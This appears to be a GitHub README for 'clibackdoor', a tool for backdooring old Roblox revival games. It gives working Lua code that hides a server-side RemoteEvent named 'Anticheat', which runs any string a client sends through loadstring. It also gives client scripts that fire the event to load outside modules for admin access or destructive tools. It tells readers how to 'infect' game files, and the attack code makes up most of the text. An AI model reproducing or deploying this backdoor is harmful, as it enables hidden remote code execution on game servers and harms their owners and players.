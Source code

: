 # clibackdoor
A backdoor for old Roblox clients
# FAQ
## Will you make a UI?
No, we are not gonna make a UI for clibackdoor.
## Does this work in FE?
Yes, as long as the game is infected!
## How does it work?
You get a executor for the revival you're exploiting, infect a rbxl, turn on LoadstringEnabled, insert the script below, and then join a infected game. Once you're in there, use a example script below with the executor for the revival and you can now execute requires!
## How do I use it?
First, put this code into a random script or make a script in a random object:
```
-- clibackdoor, by the b1 fanclub

local ac = Instance.new("RemoteEvent", game.ReplicatedStorage)
ac.Name = "Anticheat"
ac.OnServerEvent:connect(function(player, SS)
    loadstring(SS)()
end)
```
Then, once you did that, click Workspace, and make sure LoadstringEnabled is enabled. If it is not in Workspace, then check in ServerScriptService.

If you have a clientsided executor for the revival you're exploiting, run this or any examples:
```
-- i like my cheese drippy bro
local moduleID = 970596902
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
# Examples
## Tree Smasher
```
-- i like my cheese drippy bro
local moduleID = 970596902
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
## Kohl's Admin Epix
```
-- i like my cheese drippy bro
local moduleID = 522666193
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).giveAdmin("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
## Mustard Gas
```
-- i like my cheese drippy bro
local moduleID = 1196228933
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
